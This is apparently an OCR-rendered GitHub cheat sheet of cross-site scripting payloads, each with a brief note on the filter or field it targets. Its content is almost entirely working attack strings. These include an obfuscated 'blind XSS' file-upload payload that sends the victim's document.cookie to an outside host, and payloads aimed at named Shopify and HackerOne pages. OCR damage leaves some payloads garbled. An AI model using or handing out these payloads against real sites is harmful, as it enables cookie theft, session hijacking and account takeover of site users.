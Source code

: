 Bypassing <> symbols 

**”/>&_lt;_script>alert(1)&_lt;/scr_ipt>”/>**

================================================================================================================

Blind XSS in File Upload

**\"><img src=1 onerror=\"url=String104,116,116,112,115,58,47,47,103,97,116,111,108,111,117,99,111,46,48,48,48,119,101,98,104,111,115,116,97,112,112,46,99,111,109,47,99,115,109,111,110,101,121,47,105,110,100,101,120,46,112,104,112,63,116,111,107,101,110,115,61+encodeURIComponent(document['cookie']);xhttp=&#x20new&#x20XMLHttpRequest();xhttp'GET',url,true;xhttp'send';**

capture the request and change the filename like this 

================================================================================================================

First name and Last name 

divide the payload and store in each field

***(first name '<img src=x' and last name'onerror=alert(1)>')***

================================================================================================================\
Adding Payload in menu items name

`"><img src="x" onerror="alert(document.cookie)">`

================================================================================================================
rename the file using js or html 

`<h1><b><i><u>MikeIsAStar`

================================================================================================================

XSS  through CSS injection   using **utm_source** parameter

**<https://www.shopify.com/markets?utm_source=INJECTION%22%20style=%22animation-name:swoop-up%22%20onanimationstart=%22alert(document.domain>****)**      

================================================================================================================
in a particular application contains url field

- this payload used to trigger alert :   decoded version   %2f%2f@  => //@    
- //   commments the rest of the code in the ulr and js
- so the application create alert box.

`javascript://alert(document.domain);%2f%2f@`

================================================================================================================
enter this payload into Name parameter  

**</script><svg onload=alert()>**

================================================================================================================
CSP implemented but old browsers like IE ,MS Edge render this

`https://www.hackerone.com/careers?lever-#aaa"><script src="https://app-sj17.marketo.com/index.php/form/getForm?callback=alert"></script>`

================================================================================================================

excessive entities overwhelm sanitization processes or result in **partial sanitization**.

`<img src=1111111><img src=1111111><a href="javascript:alert&#40/1/&#41">axxx</a><svg></svg><img src=1>`

================================================================================================================

- // comments the further code.so the application render only this javascript:alert(1.
- this leads to make a popup in the window

`javascript:alert(1)//https://dqdqdqdqdq.myshopify.com`

================================================================================================================


\"><img src=1 onerror=\"alert('XSS')\">